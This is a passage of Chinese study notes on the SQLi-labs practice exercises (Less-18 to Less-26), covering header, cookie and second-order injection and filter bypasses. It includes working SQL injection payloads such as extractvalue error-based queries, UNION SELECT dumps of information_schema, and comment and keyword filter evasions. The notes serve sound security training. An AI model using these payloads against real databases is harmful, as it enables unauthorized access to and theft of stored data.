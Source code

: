 UA 注入，要先登录才有回显，注意闭合

```sql
' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '
```
##### Less-19 Header Injection  - Referer field - Error based

##### Less-20 Cookie injection - Uagent field - Error based

cookie 注入，同样有报错，改了cookie后不会影响登录状态吗？

##### Less-21 Less-22 与前面的类似
##### Less-23

发现 `#, --` 被过滤，可换 `;%00`，或者直接闭合单引号

```sql
?id=-1' union select 1,database(),'3
?id=-1' union select 1,2,database();%00
?id=-1'union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),'3

-- 报错注入
?id=1' and (extractvalue(1,concat(0x7e,(select database()),0x7e)));%00
```

##### Less-24 Second Oder Injections *Real treat* - Stored injection

二次排序注入，将可能导致 sql 注入的字符先存入数据库，当再次调用这个恶意构造的字符时，就可以触发注入。

```sql
UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pa';
```

对于本题的 `sql` 语句来说，如果先注册一个 `admin'#` 用户，此用户改密码的时候也修改了 `admin` 的密码。

所以有无严格控制用户的输入对安全影响特别大。

##### Less-25 Error Based - All your OR & AND belong to us - integer based

题意是说过滤了 `or, and`，并且展示了过滤后的字符串在下方，同时也有报错，所以方法很多

```sql
?id=-2' union select 1, database(), 3%23
```

`or, and` 可以用 `||, &&` 代替，本题还可用 `o/**/r` 或者 `oorr`

##### Less-25a Blind Based - All your OR & AND belong to us - integer based

与 Less-25 大同小异

##### Less-26 Error based - All your SPACES and COMMENTS belong to us（待研究）
